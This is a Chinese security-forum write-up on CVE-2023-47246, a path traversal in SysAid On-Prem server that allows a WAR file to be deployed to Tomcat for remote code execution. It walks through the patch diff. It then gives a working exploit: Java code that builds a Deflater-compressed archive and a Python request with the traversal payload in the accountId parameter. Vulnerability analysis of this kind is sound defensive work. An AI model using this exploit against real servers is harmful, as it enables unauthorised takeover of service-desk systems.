# 奇安信攻防社区-【Web】SysAid On-Prem Software CVE-2023-47246 目录穿越RCE

### 【Web】SysAid On-Prem Software CVE-2023-47246 目录穿越RCE

2023 年 11 月 8 日，SysAid 发布了一份公告，表示他们的本地服务器软件存在先前未公开的漏洞，并且发现了公开的野外利用，本文将对该漏洞进行分析，并给出利用方式。

# 公告

[https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification](https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification)

说是有一个目录穿越可以传war包，导致rce了。

# 下载

[https://cdn3.sysaid.com/OnPremInstall/23.3.36/SysAidServer64.exe](https://cdn3.sysaid.com/OnPremInstall/23.3.36/SysAidServer64.exe)

[https://cdn3.sysaid.com/OnPremInstall/23.3.35/SysAidServer64.exe](https://cdn3.sysaid.com/OnPremInstall/23.3.35/SysAidServer64.exe)

安装需要试用证书，这个自己想办法，我没有，只是看了看diff。

# 补丁diff

com.ilient.server.UserEntry#doPost



修了目录穿越



var4来自accountId参数，在a函数中存在目录穿越



最终会被拼接到文件路径中，并且写入`InflaterInputStream var29 = new InflaterInputStream(var1.getInputStream());`数据流



但是这里文件名是时间戳.zip，继续往后看还有一个a函数



这里var1是accountid，解压时间戳.zip，var1可以跨目录，虽然判断了目录穿越`var10.getCanonicalPath().startsWith(var5 + File.separator)`，但是var1本来就是目录穿越的，所以判断没用。



这样就能自定义war包名字了，配合tomcat自动部署rce。



# 构造exp

实际利用发现需要绕过几个点



isLdapSupport会执行sql判断`count(ldap_id)>1`



最终是拼接accountid当作数据库名，然后查询判断`count(ldap_id)>1`



这里需要手动配置下后台（所以这个洞是非默认配置！！！）



默认数据库名是ilient



另外就是war包构造，需要用Deflater压缩一下

```java
import org.springframework.util.StreamUtils;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.util.zip.Deflater;
import java.util.zip.ZipEntry;
import java.util.zip.ZipOutputStream;

public class Main {
    public static void main(String[] args) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("1.zip");
        ZipOutputStream zipOutputStream = new ZipOutputStream(fileOutputStream);
        zipOutputStream.putNextEntry(new ZipEntry("haha.war"));
        zipOutputStream.write(StreamUtils.copyToByteArray(new FileInputStream("C:\\Users\\asd\\Desktop\\war\\w.war")));
        zipOutputStream.closeEntry();
        zipOutputStream.flush();
        zipOutputStream.finish();

        Deflater deflater = new Deflater();
        FileInputStream fileInputStream = new FileInputStream("1.zip");
        byte[] data = StreamUtils.copyToByteArray(fileInputStream);
        deflater.setInput(data);
        deflater.finish();
        byte[] output;
        ByteArrayOutputStream bos = new ByteArrayOutputStream(data.length);
        try {
            byte[] buf = new byte[1024];
            while (!deflater.finished()) {
                int i = deflater.deflate(buf);
                bos.write(buf, 0, i);
            }
            output = bos.toByteArray();
        } catch (Exception e) {
            output = data;
            e.printStackTrace();
        } finally {
            bos.close();
        }
        deflater.end();

        new FileOutputStream("1.dat").write(output);
    }
}
```

```python
import requests

proxy = {
'http':'http://localhost:8080'
}
headers = {
'Content-Type':'application/octet-stream'
}
r = requests.post('http://172.16.1.237:8080/userentry?accountId=ilient/../../../../tomcat/webapps&symbolName=LDAP_REFRESH_',headers=headers,data=open('1.dat','rb'),proxies=proxy)
```

python发包就能部署war包了。



# 总结

和@r4v3zn折腾了两三天才实现完整的构造，主要是卡在没许可证上了。装环境2小时，rce2分钟。
